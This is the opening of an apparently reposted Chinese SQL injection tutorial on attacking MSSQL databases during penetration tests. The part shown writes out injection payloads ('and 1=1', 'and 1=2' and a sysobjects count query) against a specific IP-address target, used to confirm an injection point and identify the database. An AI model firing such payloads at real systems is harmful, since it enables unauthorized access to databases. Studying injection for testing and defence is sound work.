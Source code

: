 ```yaml
---
title: MSSQL数据库注入全方位利用
tags: 
  - 数据库
  - SQL注入
  - Sql Server
categories: web安全
keywords: '数据库,web安全,mssql,sql注入'
description: MSSQL数据库注入全方位利用
cover: https://p5.ssl.qhimg.com/t0181df866952842a55.png
date: 2021-02-02 10:45:41
---
```


<meta name="referrer" content="no-referrer"/>

>本文由ajie原创发布
>转载，请参考转载声明，注明出处： https://www.anquanke.com/post/id/248896
>安全客 - 有思想的安全新媒体

# 0x01 前言

在渗透测试过程中遇到了MSSQL数据库，市面上也有一些文章，不过大多数讲述的都是如何快速利用注入漏洞getshell的，对于MSSQL数据库的注入漏洞没有很详细地描述。在这里我查阅了很多资料，希望在渗透测试过程中遇到了MSSQL数据库能够相对友好地进行渗透测试，文章针对实战性教学，在概念描述方面有不懂的还请自行百度，谢谢大家～

# 0x02 注入前准备

## 1、确定注入点

```php
http://219.153.49.228:40574/new_list.asp?id=2 and 1=1
```
![](https://p4.ssl.qhimg.com/t014e83f602b04a19d1.png)

```php
http://219.153.49.228:40574/new_list.asp?id=2 and 1=2
```
![](https://p0.ssl.qhimg.com/t01d16d8612cfb9ab51.png)

## 2、判断是否为mssql数据库

sysobjects为mssql数据库中独有的数据表，此处页面返回正常即可表示为mssql数据库。

```php
http://219.153.49.228:40574/new_list.asp?id=2 and (select count(*) from sysobjects)>0
```

![](https://p3.ssl.qhimg.com/t01b69ef8d50a8162d7.png)
还可以通过MSSQL数据库中的延时函数进行判断，当语句执行成功，页面延时返回即表示为MSSQL数据库。
